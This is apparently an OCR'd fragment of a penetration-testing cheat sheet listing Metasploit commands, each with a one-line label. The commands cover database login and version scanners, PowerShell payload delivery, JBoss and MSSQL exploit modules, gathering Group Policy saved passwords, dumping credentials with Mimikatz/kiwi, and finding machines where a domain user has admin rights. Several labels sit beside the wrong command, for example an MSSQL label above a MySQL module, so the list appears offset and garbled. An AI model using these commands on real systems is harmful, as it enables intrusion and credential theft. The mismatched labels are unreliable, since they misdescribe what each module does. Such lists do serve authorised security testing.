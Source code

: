 - Metasploit MSSQL Credential Scanner

```bash
use auxiliary/scanner/mysql/mysql_version
```

- Metasploit MSSQL Version Scanner

```bash
use auxiliary/scanner/oracle/oracle_login
```

- Metasploit Oracle Login Module

```bash
use exploit/multi/script/web_delivery
```

- Metasploit powershell payload delivery module

```bash
post/windows/manage/powershell/exec_powershell
```

- Metasploit upload and run powershell script through a session

```bash
use exploit/multi/http/jboss_maindeployer
```

- Metasploit JBOSS deploy

```bash
use exploit/windows/mssql/mssql_payload
```

- Metasploit MSSQL payload

```bash
run post/windows/gather/win_privs
```

- Metasploit show privileges of current user

```bash
use post/windows/gather/credentials/gpp
```

- Metasploit grab GPP saved passwords

```bash
load kiwi
```

```bash
creds_all
```

- Metasploit load Mimikatz/kiwi and get creds

```bash
run post/windows/gather/local_admin_search_enum
```

- Idenitfy other machines that the supplied domain user has administrative access to
